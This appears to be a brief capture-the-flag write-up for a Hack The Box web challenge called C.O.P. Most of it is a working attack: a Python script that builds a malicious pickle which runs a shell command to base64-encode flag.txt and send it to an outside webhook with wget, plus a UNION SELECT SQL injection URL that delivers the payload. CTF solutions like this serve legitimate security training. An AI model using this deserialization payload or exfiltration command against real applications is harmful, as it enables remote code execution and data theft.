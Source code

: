 ## **HTB** 
### **Difficult:** easy
### **Type:** SQL injection, Pickle deserialization
___
### **Description:**
The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!

Author: InfoSecJack
___

de.py
```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('wget <WEB_HOOK_URL>?$(cat flag.txt | base64)')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```
Get flag:

```
http://<HTB_IP>/view/' union select all '<pickle payload>'--
```
